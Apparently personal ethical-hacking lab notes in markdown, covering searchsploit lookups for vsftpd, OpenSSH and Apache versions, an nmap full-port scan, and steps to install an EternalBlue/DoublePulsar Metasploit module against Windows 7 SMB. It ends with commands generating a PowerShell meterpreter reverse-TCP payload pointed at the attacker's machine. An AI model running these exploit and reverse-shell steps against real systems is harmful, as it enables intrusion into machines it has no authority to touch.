 
```
┌──(kali㉿kali)-[~/dev/exploits_files]
└─$     searchsploit ftp 2.3.4

┌──(kali㉿kali)-[~]
└─$ searchsploit OpenSSH 4.7p1

┌──(kali㉿kali)-[~]
└─$ searchsploit apache 2.2.8

# scan all port
sudo nmap -sV <vm ip> -p-

vncviewer <metasploitable ip>
```


~~need to open port 4444 on kali~~
~~netstat -lnu~~
~~┌──(kali㉿kali)-[~/dev/Ethical_Hacking_learning]~~
~~└─$ sudo ufw allow 4444~~

## Windows 7 exploits
SMB ports :
139
445
breach : Ethernal Blue
patch of SMBv1 flaws in 2020

### get and install additional exploit
install wine + exploit + windows python2
```
┌──(kali㉿kali)-[~/dev/Ethical_Hacking_learning]
└─$ sudo dpkg --add-architecture i386 && sudo apt-get update && sudo apt-get install wine32

as root 
wine msiexec /i python2.7.msi
┌──(kali㉿kali)-[~/dev/doublepulsar]
└─$ sudo cp EternalBlue/Eternalblue-Doublepulsar-Metasploit/deps /usr/share/metasploit-framework/modules/exploits/windows/smb -r
┌──(kali㉿kali)-[~/dev/doublepulsar]
└─$ sudo cp EternalBlue/Eternalblue-Doublepulsar-Metasploit/eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
┌──(kali㉿kali)-[~/dev/doublepulsar]
└─$ sudo cp EternalBlue/Eternalblue-Doublepulsar-Metasploit/deps /root/ -r
┌──(kali㉿kali)-[~/dev/doublepulsar]
└─$ sudo cp EternalBlue/Eternalblue-Doublepulsar-Metasploit/eternalblue_doublepulsar.rb /root 
┌──(kali㉿kali)-[~/dev/doublepulsar]
└─$ sudo cp EternalBlue/Eternalblue-Doublepulsar-Metasploit /root -r 
```
use new exploit 
```
use windows/smb/eternalblue_doublepulsar
```


[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate